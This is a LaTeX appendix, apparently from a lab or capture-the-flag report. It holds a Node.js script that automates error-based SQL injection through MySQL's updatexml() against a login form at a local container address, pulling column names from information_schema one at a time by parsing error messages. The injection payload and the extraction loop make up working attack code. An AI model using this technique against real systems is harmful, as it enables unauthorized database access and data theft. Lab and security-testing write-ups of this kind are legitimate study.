 \documentclass[12pt]{article}
\begin{document}
\section{Scripts}
\appendix
\section*{Appendix A – Nodejs Table Enumeration Script}

\textbf{Description:}\\
The below script automates table name extraction using error-based SQL injection via the 
\\\texttt{updatexml()} function.

\begin{lstlisting}[language=JavaScript, label={lst:sql-js}]
const url = "http://172.17.0.2/login.php";

async function getColumnNames(table) {
    const colNames = [];
    let i = 0;

    while (true) {
        const sql = `' or updatexml(0,concat('~',(SELECT column_name 
                FROM information_schema.columns 
                WHERE table_name LIKE '${table}' 
                LIMIT ${i},1),'~'),0) or '#`;

        const body = new URLSearchParams({
            username: sql,
            password: 'x'
        }).toString();

        const resp = await fetch(url, {
            method: "POST",
            headers: {
                "Content-Type": "application/x-www-form-urlencoded",
            },
            body,
        });

        const html = await resp.text();

        if (!html.includes('XPATH syntax error')) break;

        const match = html.match(/~([^~]+)~/);
        if (match) {
            const col = match[1];
            colNames.push(col);
            i++;
        } else {
            console.log(`No column extracted for ${table}, stopping.`);
            break;
        }
    }

    return colNames;
}


\end{lstlisting}
\end{document}
